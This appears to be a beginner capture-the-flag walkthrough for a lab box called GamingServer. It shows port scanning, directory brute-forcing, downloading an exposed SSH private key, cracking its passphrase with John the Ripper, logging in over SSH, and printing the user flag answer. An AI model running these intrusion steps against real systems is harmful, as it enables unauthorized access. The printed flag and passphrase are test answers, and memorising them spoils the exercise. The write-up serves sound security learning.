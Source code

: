 # GamingServer

An Easy Boot2Root box for beginners

Connect with server and start.

We start with RECON

1. Port Scanning
```
rustscan -a 10.10.174.135 -r 1-65535 --ulimit 5000 -- -sV -T4 -oN rustscan_nmap.txt
```
Result
```
[~] The config file is expected to be at "/home/srishti/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.174.135:22
Open 10.10.174.135:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} -{{ipversion}} {{ip}} -sV -T4 -oN rustscan_nmap.txt" on ip 10.10.174.135
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-03 20:21 IST
NSE: Loaded 47 scripts for scanning.
Initiating Ping Scan at 20:21
Scanning 10.10.174.135 [4 ports]
Completed Ping Scan at 20:21, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:21
Completed Parallel DNS resolution of 1 host. at 20:21, 0.00s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 20:21
Scanning 10.10.174.135 [2 ports]
Discovered open port 22/tcp on 10.10.174.135
Discovered open port 80/tcp on 10.10.174.135
Completed SYN Stealth Scan at 20:21, 0.24s elapsed (2 total ports)
Initiating Service scan at 20:21
Scanning 2 services on 10.10.174.135
Completed Service scan at 20:21, 6.49s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.174.135.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 20:21
Completed NSE at 20:21, 0.86s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 20:21
Completed NSE at 20:21, 0.83s elapsed
Nmap scan report for 10.10.174.135
Host is up, received timestamp-reply ttl 60 (0.19s latency).
Scanned at 2025-07-03 20:21:12 IST for 8s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.92 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (128B)

```
So two ports are open port 22 and port 80

2. Website recon
We go to the website at port 80 and it shows us a webpage.

Will hit the Ctrl+U to view the source page.

So, in comment we saw a comment which talking to John. So, maybe it is a username.

We also have many options to go.
When we click on the Draagon lore and we get the upload option.
When we click it, it takes us to the upload directory which have following directories.

 We have a directory which include the password, so we save it on the pc.
 ```
 wget "http://10.10.174.135/uploads/dict.lst"
```

3. Directory Search
```
 gobuster dir -u http://10.10.174.135/ -w /usr/share/wordlists/rockyou.txt
```
We found the directory \secret

We have a secret key
RSA key

```
wget "http://10.10.174.135/secret/secretKey"
```
Run the command to make key accessible
```
chmod 600 secretKey
```
In our rustscan, we see there is ssh open

Now we have potential username, password and key

We can try ssh into the machine.

And the key need a passphrase
So, we have password list we will use john the ripper

```
ssh2john secretKey > john.txt
```
```
john john.txt --wordlist=dict.lst
```

And we get the password - `letmein`

So we start the ssh

```
ssh -i secretKey john@10.10.174.135
Enter passphrase for key 'secretKey': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jul  3 16:12:39 UTC 2025

  System load:  0.0               Processes:           105
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 17%               IP address for ens5: 10.10.174.135
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$ ls
user.txt
john@exploitable:~$ cat user.txt
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e

```
And we get the first user flag here

What is the user flag?
`a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e`

Now we can do the further enumeration



